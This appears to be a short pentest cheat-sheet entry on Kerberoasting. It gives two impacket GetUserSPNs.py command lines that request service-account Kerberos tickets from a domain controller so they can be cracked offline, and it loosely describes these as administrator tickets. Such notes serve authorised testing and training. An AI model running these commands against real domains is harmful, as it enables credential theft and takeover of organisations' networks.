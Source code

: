 ## Kerberoasting

Use **GetUserSPNs.py** from impacket to get administrator Kerberos ticket
```
//You need credentials of any user to do that
./GetUserSPNs.py -request <domain>/<user>
GetUserSPNs.py -request -dc-ip <IP> <domain>/<user> -save -outputfile GetUserSPNs.out
```
